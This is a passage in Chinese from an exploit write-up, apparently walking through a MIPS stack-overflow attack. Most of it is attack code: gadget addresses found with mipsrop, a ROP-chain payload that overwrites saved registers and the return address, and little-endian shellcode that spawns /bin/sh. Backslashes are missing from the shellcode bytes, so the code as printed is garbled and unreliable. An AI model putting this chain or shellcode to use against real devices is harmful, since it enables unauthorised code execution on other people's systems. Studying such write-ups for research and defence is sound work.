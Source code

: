 ```
payload+="aaaa"#覆盖$s1
payload+="aaaa"#覆盖$s2
payload+=p32(gadget4)#覆盖$ra
```  
  
从ida显示的0x00016dd0可知，我们还得找一个可以利用$a0跳转的gadget5，直接简单粗暴 mipsrop.find(“move $t9,$a0”) gadget5=0x000214A0+libc_addr=0x7f7064a0  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldzgr2BfvRHQPINwcTfnsPQKvZ1sjX61uCxrkxoDS998jD2dQta3wMNjeVia5JU0PtZdt6UrI53dulg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5znJiaZxqldzgr2BfvRHQPINwcTfnsPQK7LBky3k8BbpAsNZ36E01n3zf4cUVoqmicJGAnFtz3WVdVibudpS1RWxg/640?wx_fmt=png&from=appmsg "")  
```
gadget1=0x7f714b10
gadget2=0x7f6eba50
gadget3=0x7f705f1c
gadget4=0x7f6fbdd0
gadget5=0x7f7064a0
sleep_addr=0x7f7142b0
payload="a"*508
payload+=p32(gadget2)
payload+="b"*0x58
payload+="cccc"#覆盖s0
payload+=p32(gadget3)#覆盖s1
payload+=p32(sleep)#覆盖s2，写入sleep
payload+=p32(gadget1)

payload+="c"*0x18#gadget3需要调整的shellcode位置的字节码
payload+=p32(gadget5)#覆盖$s0
payload+="aaaa"#覆盖$s1
payload+="aaaa"#覆盖$s2
payload+=p32(gadget4)#覆盖$ra

payload+="f"*0x18
payload += p32(0xdeadbeef)
payload += shellcode
```  
  
随便找了个网站生成了一段小端的shellcode  
```
shellcode =“”
shellcode +="xffxffx06x28"# slti $a2, $zero, -1
shellcode +="x62x69x0fx3c"# lui $t7, 0x6962
shellcode +="x2fx2fxefx35"# ori $t7, $t7, 0x2f2f
shellcode +="xf4xffxafxaf"# sw $t7, -0xc($sp)
shellcode+="x73x68x0ex3c"# lui $t6, 0x6873
shellcode +="x6ex2fxcex35"# ori $t6, $t6, 0x2f6e
shellcode +="xf8xffxaexaf"# sw $t6, -8($sp)
shellcode +="xfcxffxa0xaf"# sw $zero, -4($sp)
shellcode +="xf4xffxa4x27"# addiu $a0, $sp, -0xc
shellcode +="xffxffx05x28"# slti $a1, $zero, -1
shellcode +="xabx0fx02x24"# addiu;$v0, $zero, 0xfab
shellcode +="x0cx01x01x01"# syscall 0x40404
```  
  
